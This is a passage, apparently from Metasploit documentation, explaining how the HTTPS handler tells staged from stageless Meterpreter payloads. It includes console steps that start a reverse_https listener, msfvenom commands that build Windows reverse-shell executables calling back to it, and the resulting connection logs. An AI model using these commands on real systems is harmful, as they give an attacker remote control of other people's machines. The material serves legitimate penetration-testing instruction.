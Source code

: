 Win.

## What about HTTP/S?

Thankfully, the case with HTTP/S is very different. The HTTP/S handler has code in it that is able to determine if an incoming session is staged or stageless simply by looking at the incoming URI. The URI contains encoded information that the handler is able to parse, and hence can perform different functions depending on the content.

This means that regardless of how you generated your payload, you can always use the staged `reverse_http/s` handler and it will _Just Work &trade;_. Here's an example:

```
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set LPORT 7000
LPORT => 7000
msf exploit(handler) > unset ReverseListenerBindPort
Unsetting ReverseListenerBindPort...
msf exploit(handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.1.10.35       yes       The local listener hostname
   LPORT     7000             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] [2016.10.05-12:41:37] Started HTTPS reverse handler on https://10.1.10.35:7000
msf exploit(handler) > [*] [2016.10.05-12:41:37] Starting the payload handler...
```
With the listener set up, we can create both staged and stageless payloads that point to the same port:
```
$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.1.10.35 LPORT=7000 -f exe -o /tmp/staged7000.exe
$ msfvenom -p windows/meterpreter_reverse_https LHOST=10.1.10.35 LPORT=7000 -f exe -o /tmp/stageless7000.exe
```
When we run stageless, it gets picked up appropriately:
```
[*] [2016.10.05-12:43:55] https://10.1.10.35:7000 handling request from 10.1.10.44; (UUID: 6ivojknu) Redirecting stageless connection from /oDrA4oxsqwxAWEFZF6wogQ1JE465jU9x7b8re with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] [2016.10.05-12:43:55] https://10.1.10.35:7000 handling request from 10.1.10.44; (UUID: 6ivojknu) Attaching orphaned/stageless session...
```

  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [MS08-067]: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
  [Brent Cook]: https://twitter.com/busterbcook
  [config-wiki]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Configuration